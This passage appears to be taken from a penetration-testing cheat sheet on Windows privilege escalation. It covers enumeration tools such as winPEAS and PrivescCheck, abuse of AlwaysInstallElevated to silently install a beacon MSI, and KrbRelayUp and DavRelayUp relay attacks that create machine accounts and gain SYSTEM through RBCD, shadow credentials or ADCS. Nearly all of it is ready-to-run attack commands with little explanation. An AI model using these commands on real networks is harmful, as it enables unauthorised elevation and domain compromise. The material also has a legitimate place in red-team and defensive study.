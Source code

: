 ### Other enumeration tools

```powershell
#PrivescCheck: https://github.com/itm4n/PrivescCheck
. .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended

.\beRoot.exe
.\winPEAS.exe
.\Seatbelt.exe -group=all -full

#Privesc: https://github.com/enjoiz/Privesc
Invoke-PrivEsc
```

### Always Install Elevated

```batch
run msiexec /i BeaconInstaller.msi /q /n
```

### Impersonation attacks / Potatoes

[Full article here](https://hideandsec.sh/books/windows-sNL/page/in-the-potato-family-i-want-them-all)

### KrbRelayUp

#### With RBCD

```powershell
./KrbRelayUp.exe relay -Domain domain.local -CreateNewComputerAccount -ComputerName test$ -ComputerPassword Password123!
./KrbRelayUp.exe spawn -d domain.local -cn test$ -cp Password123!
```

#### With ShadowCreds

```powershell
./KrbRelayUp.exe full -m shadowcred --ForceShadowCred
```

#### With ADCS

```powershell
./KrbRelayUp.exe full -m adcs
```

### DavRelayUp

Similar to KrbRelayUp, but relay from WebDAV to LDAP.

```powershell
#Create a new computer account to perform RBCD
./DavRelayUp.exe -c

#Use an existing computer account
./DavRelayUp.exe -cn <computer_name> -cp <computer_password>

#Impersonate another local user than Administrator
./DavRelayUp.exe -c -i user1

#Start WebDAV on another port than the default 55555
./DavRelayUp.exe -c -p 1234
```
